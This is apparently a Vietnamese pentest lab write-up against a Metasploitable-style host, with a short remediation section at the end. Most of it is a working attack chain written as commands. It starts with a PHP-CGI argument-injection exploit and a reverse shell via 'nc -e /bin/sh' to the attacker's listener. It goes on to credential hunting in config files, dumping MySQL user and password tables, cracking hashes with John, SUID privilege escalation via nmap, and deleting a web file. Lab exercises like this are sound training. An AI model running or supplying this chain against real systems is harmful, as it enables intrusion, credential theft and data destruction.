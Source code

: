 ## Tùy chọn lệnh
```
curl -s -X POST "http://192.168.80.10/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input" -d "<?php system('whoami'); die(); ?>" --connect-timeout 10
```

## Chím Shell phiên bản ngoài đời thực

-Lắng nghe:
```
nc -lvnp 4444
```

- Thự hiện shell ngược:
```
curl -s -X POST "http://192.168.80.10/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input" -d "<?php system('nc 192.168.80.2 4444 -e /bin/sh'); die(); ?>" --connect-timeout 10
```

- Chím shell
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

- 📁 4. Khám phá thư mục home, có thể chứa thông tin nhạy cảm [*]
```
cd /home
ls -la
```

- 🔑 5. Tìm kiếm thông tin nhạy cảm: mật khẩu, private key, cấu hình database
```
find /var/www -type f -iname "*config*.php"
```

- 🔍 Đặc biệt chú ý các file trong dvwa, mutillidae, phpMyAdmin, tikiwiki: [*]
cat /var/www/dvwa/config/config.inc.php

```
cat /var/www/dvwa/config/config.inc.php
```

- 🔄 7. Nếu có thông tin đăng nhập MySQL, thử đăng nhập: [*]
```
mysql -u root -p
```

```
show databases;
```

```
USE dvwa;
SHOW TABLES;
SELECT * FROM users;
```

```
USE mysql;
SELECT user, host, password FROM user;
```

```
USE owasp10;
SHOW TABLES;
SELECT * FROM accounts;
```


```
exit
```
## Crack password

```
john --format=<format> hashes.txt
```

```
john --show hashes.txt
```

```
john --session=new_session --wordlist=/path/to/wordlist.txt hashes.txt
```

```
john --wordlist=rockyou.txt --format=nt hashes.txt
```



## Test đăng nhập

- Xem người dùng trong hệ thống
```
cat /etc/passwd
```

## Thăng Quyền

```
find / -perm -4000 -type f 2>/dev/null
```

```
/usr/bin/nmap --interactive
```

```
!sh
```

```
whoami
```
## Tạo thư mục
```
mkdir haidang
```


## xóa file
```
rm index.php
```






# 🛡️ 4. Đề xuất khắc phục

## Lọc Tham Số Nguy Hiểm
> `-d` `-n` `-s` ...

```
export TERM=xterm
ssh -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedAlgorithms=+ssh-rsa msfadmin@192.168.80.10
```


```
cd /var/www
sudo nano .htaccess
```

- Dán nội dung sau:
```
<IfModule mod_rewrite.c>
  RewriteEngine On
  RewriteCond %{QUERY_STRING} ^(%2d|-)[^=]+$ [NC]
  RewriteRule ^.* - [F,L]
</IfModule>
```

- reload
```
sudo a2enmod rewrite
sudo /etc/init.d/apache2 force-reload
```

---

- 🛠 Cho phép Apache sử dụng .htaccess
```
sudo nano /etc/apache2/sites-available/default
```

- Tìm:
```
<Directory /var/www/>
    Options Indexes FollowSymLinks MultiViews
    AllowOverride None
    Order allow,deny
    allow from all
</Directory>
```

- ➡ Sửa dòng AllowOverride None thành:
```
AllowOverride All
```

- AllowOverride All

```
sudo /etc/init.d/apache2 restart
```

---

```
sudo ifconfig eth0 192.168.80.10 netmask 255.255.255.0 up 
```
